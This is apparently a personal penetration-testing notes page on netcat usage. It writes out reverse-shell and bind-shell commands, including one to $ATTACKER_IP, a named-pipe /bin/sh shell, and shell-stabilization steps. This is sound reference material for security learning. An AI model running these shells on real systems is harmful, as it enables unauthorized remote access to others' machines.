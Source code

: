 # Using "netcat"

**author**:: Nathan Acks
**date**:: 2022-06-29

The netcat binary is *usually* `nc`, but some systems have it at `ncat` or `netcat` instead.

Note that the `-c` and `-e` flags are considered security risks (for obvious reasons!), and are disabled on some systems.

## Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

## Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn't. I think - though I haven't been able to verify - that what's happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

A netcat server doesn't have to be used just for reverse shells. For example, you can also use it to catch web requests in conjunction with XSS or SQLi attacks.

* [XSS (Cross-Site Scripting) Attacks](xss-attacks.md)
* [SQL Injection](sql-injection.md)

## Useful Flags

* `-l` - listen for incoming connections (rather than make an outgoing connection)
* `-v` - verbose
* `-n` - skip DNS resolution (slightly faster, less noisy on the network)
* `-p` - specify the port to *listen* to
* `-u` - connect using UDP instead of TCP
* `-k` - keep listening even after client disconnects

## Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn't available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; \
nc -lvnp $LISTENER_PORT < /tmp/p | \
	/bin/sh >/tmp/p 2>&1; \
rm /tmp/p
```

(Note that it's also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See the discussion of msfvenom payloads for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

### Shell "Stabilization"

Shell "stabilization" refers to the process of making a remote shell behave like a normal local shell - so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc. In practice, this generally involves creating a *second* connection from within the "unstable" shell, and then using that (keeping the first connection around just so you can restart the "stabilized" shell if you accidentally exit/kill it).

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

The `rlwrap` package will handle almost all of this for you.

```bash
rlwrap -cAr nc -lvnp $PORT
```

Or just use socat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you'll need to manually specify it using `stty rows` and `stty cols`.

* [Using "socat"](socat.md)

## Port Forwarding

```bash
nc -lvnp $INCOMING_PORT -c "nc $TARGET_IP $TARGET_PORT"
```

## Other Uses

### Telnet Replacement

If you just have netcat connect to a service directly, it functions exactly like telnet.

### Port Scanning

With the `-z` option, netcat will attempt to connect to all TCP ports on the targets in a sequential fashion (if no ports are specified; otherwise just to the specified port), reporting which are open. It's like a simple, very slow version of Nmap!

Use `-w` to set the timeout in seconds.

Use `-u` to try connecting over UDP rather than TCP.

* [Using "nmap"](nmap.md)

### Port Forwarding

```bash
nc -lvkp $LOCAL_PORT -c "nc $REMOTE_IP $REMOTE_PORT"
```
